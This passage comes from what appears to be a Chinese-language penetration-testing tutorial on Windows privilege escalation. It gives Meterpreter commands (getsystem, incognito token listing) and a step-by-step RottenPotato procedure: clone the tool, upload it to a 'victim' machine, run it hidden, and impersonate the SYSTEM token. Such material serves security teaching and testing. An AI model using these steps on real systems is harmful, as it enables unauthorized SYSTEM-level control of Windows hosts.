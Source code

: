 一旦exploit成功执行，就会打开另一个Meterpreter session

```bash
getsystem
getuid
```

可以看到，我们当前的用户权限已提升为了**NT AUTHORITY\SYSTEM**

**![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801880_5b99bc5885db8.png!small)**

## **RottenPotato**

使用RottenPotato将服务帐户本地提权至SYSTEM。

首先，我们在meterpreter会话中使用以下选项查看当前系统上是否存在任何有效tokens。

```bash
load incognito
list_token -u
```

可以看到，当前并没有任何token可用。

[![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801914_5b99bc7abe537.png!small)](https://image.3001.net/images/20180913/1536801914_5b99bc7abe537.png)

现在，我们从github下载Rottenpotato**。**

```bash
git clone https://github.com/foxglovesec/RottenPotato.git
cd RottenPotato
```

下载完成后我们会在Rottenpotato目录下，看到一个rottenpotato.exe文件。

将该文件上传至受害者机器。

```bash
upload /root/Desktop/RottenPotato/rottenpotato.exe .
```

[![Windows内核漏洞利用提权教程](https://image.3001.net/images/20180913/1536801946_5b99bc9a9b523.png!small)](https://image.3001.net/images/20180913/1536801946_5b99bc9a9b523.png)

然后，键入以下命令执行该exe文件，并将SYSTEM token添加到impersonate user tokens下。

```bash
execute -Hc -f rottenpotato.exe
impersonate_token "NT AUTHORITY\\SYSTEM"
```

可以看到，我们当前的用户权限已提升为了**NT AUTHORITY\SYSTEM**



reference：
<https://github.com/InteliSecureLabs/Linux_Exploit_Suggester>

<https://github.com/GDSSecurity/Windows-Exploit-Suggester>

[hackingarticles](http://www.hackingarticles.in/windows-kernel-exploit-privilege-escalation/)